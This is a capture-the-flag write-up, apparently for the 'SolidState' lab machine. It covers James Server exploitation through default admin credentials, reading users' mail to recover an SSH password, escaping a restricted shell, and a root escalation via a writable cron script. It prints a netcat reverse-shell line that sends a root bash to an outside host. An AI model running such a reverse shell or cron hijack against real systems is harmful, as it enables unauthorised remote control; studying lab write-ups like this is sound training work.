# SolidState

### Machine Info


#### Nmap



##### James Server

First I just searched for `James` for public exploits:


`James Server 2.3.2` is vulnerable to `RCE (Remote Code Execution)`. I just read the exploit `35513.py` to get a direction.

##### Exploit

From the `James Remote Admin`, which is opened on port `4555`, we can edit and add users. The credential for root was just simple `[root, root]`:


After I access to admin service with root privilege, I found there are 5 users. I just changed the password of them to check their mail server:


We now have changed the password of users and we can access to their mail server.

login to `john`:


Retrieve mail:



login to `mindy` and Retrieve mail:


The mail includes the password and username of `mindy`, `[mindy:P@55W0rd1!2@]`.

Let's just `ssh` to `mindy`:


We have a shell of user `mindy`.


#### Privilege Escalation

First I tried to change directory, run bash and check environment, I couldn't because we have a restricted shell:



Therefore I just ssh again with `-t` option to escape from `rbash` shell:



During enumeration to escalate privilege, I found that there is a misconfigured file, `tmp.py`, which is owned by root but have `777` permission:





I just thought this could be related to cronjob of root. So I just run [pspy](https://github.com/DominicBreuker/pspy) script to check cronjob related to this file:


As we can see from the result, there is a cronjob that executes `/opt/tmp.py` every 3 minutes.


##### Exploit

We have enough permission to change `/opt/tmp.py`, we can easily get reverse shell with root privilege.

Modify `/opt/tmp.py`:
```
#!/usr/bin/env python
import os
import sys
os.system('/bin/nc -e /bin/bash 10.10.14.37 5555')
```

Wait for 3 minutes and from `nc` listener:



And you can get `root.txt` :)
